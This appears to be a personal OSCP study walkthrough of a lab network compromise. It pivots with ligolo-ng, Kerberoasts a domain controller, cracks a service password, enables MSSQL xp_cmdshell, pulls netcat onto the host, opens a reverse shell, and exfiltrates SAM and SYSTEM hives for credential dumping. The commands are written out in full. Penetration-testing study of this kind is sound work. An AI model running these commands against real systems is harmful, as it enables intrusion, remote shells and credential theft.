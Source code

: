 ## pivotting technique<br>

1. Transfer the agent file to the machine hovering over both Network segments<br>
wget http://192.168.45.173/agent.exe -outfile agent.exe<br>

2. Start the ligolo server<br>
./proxy -selfcert -laddr 0.0.0.0:443<br>

3. Start the ligolo agent to connect to the server<br>
./agent.exe -connect 192.168.45.173:443 -ignore-cert

![imane alt](https://github.com/timrekmlac/Cybersecurity-Study/blob/main/OSCP/images/1.png?raw=true)

4. By this time, you should be able to access the internal machine by pivotting through the macine.

![imane alt](https://github.com/timrekmlac/Cybersecurity-Study/blob/main/OSCP/images/2.png?raw=true)

5. nmap

![imane alt](https://github.com/timrekmlac/Cybersecurity-Study/blob/main/OSCP/images/3.png?raw=true)

7. You can try Kerberoasting since you have access to the DC.
`impacket-GetUserSPNs -request -dc-ip 10.10.138.146 oscp.exam/Eric.Wallows`

![imane alt](https://github.com/timrekmlac/Cybersecurity-Study/blob/main/OSCP/images/4.png?raw=true)


8. Password crack the above hashes<br>
`hashcat -m 13100 kerberoas_hash /usr/share/wordlists/rockyou.txt`<br>
 sql_svc password  → Dolphin1


9. Access the MSSQL server
`impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148 -windows-auth`
`EXEC sp_configure 'show advanced options', 1;`<br>
`RECONFIGURE;`<br>
`EXEC sp_configure 'xp_cmdshell', 1;`<br>
`RECONFIGURE;`<br>
`EXEC xp_cmdshell ' whoami '`<br>

![imane alt](https://github.com/timrekmlac/Cybersecurity-Study/blob/main/OSCP/images/5.png?raw=true)


10. Set the Port forwardinf IP so that the internal machines can access Kali

`listener_add --addr 0.0.0.0:888 --to 0.0.0.0:888`<br>
`listener_add --addr 0.0.0.0:4444 --to 0.0.0.0:4444`<br>
`listener_add --addr 0.0.0.0:80 --to 0.0.0.0:80`<br>
`listener_add --addr 0.0.0.0:8000 --to 0.0.0.0:8000`<br>

![imane alt](https://github.com/timrekmlac/Cybersecurity-Study/blob/main/OSCP/images/6.png?raw=true)


11. Check the internal segment ip of the machine

![imane alt](https://github.com/timrekmlac/Cybersecurity-Study/blob/main/OSCP/images/7.png?raw=true)


12. Start the lightweight Web Server

![imane alt](https://github.com/timrekmlac/Cybersecurity-Study/blob/main/OSCP/images/8.png?raw=true)



13. cmd download gave an error
`EXEC xp_cmdshell 'certutil -urlcache -f http://10.10.138.147nc64.exe C:\Windows\Temp\nc64.exe';`<br>


14. powershell download worked
`EXEC xp_cmdshell 'powershell -Command "(New-Object Net.WebClient).DownloadFile(''http://10.10.138.147/nc64.exe'',''C:\Users\Public\nc64.exe'')"';`


15. Let's try reverse and got a shell as system
`EXEC xp_cmdshell 'C:\Users\Public\nc64.exe 10.10.138.147 4444 -e powershell'`
`nc -lvnp 4444`

![imane alt](https://github.com/timrekmlac/Cybersecurity-Study/blob/main/OSCP/images/9.png?raw=true)


16. Obtain SAM and SYSTEM 

`C:\windows.old\windows\system32>nc64.exe 10.10.149.138 5555 < SAM`
`C:\windows.old\windows\system32>.\nc64.exe 10.10.149.138 5555 < SYSTEM`

16. Listen on the port to receive them

`nc -lvnp 5555 > SAM`
`nc -lvnp 5555 > SYSTEM`

17. Dump the creds 
`impacket-secretsdump -sam SAM -system SYSTEM LOCAL`

![imane alt](https://github.com/timrekmlac/Cybersecurity-Study/blob/main/OSCP/images/11.png?raw=true)


# References
https://medium.com/@saintlafi/pivoting-and-tunneling-for-oscp-and-beyond-cheat-sheet-3435d1d6022
https://zenn.dev/megapachirisu/articles/bb0e9beb3f20ae
https://zenn.dev/codingotter/articles/79590426fecee5#chisel-dynamic-port-forwarding
https://medium.com/@Poiint/pivoting-with-ligolo-ng-0ca402abc3e9
https://medium.com/@redfanatic7/guide-to-pivoting-using-ligolo-ng-efd36b290f16
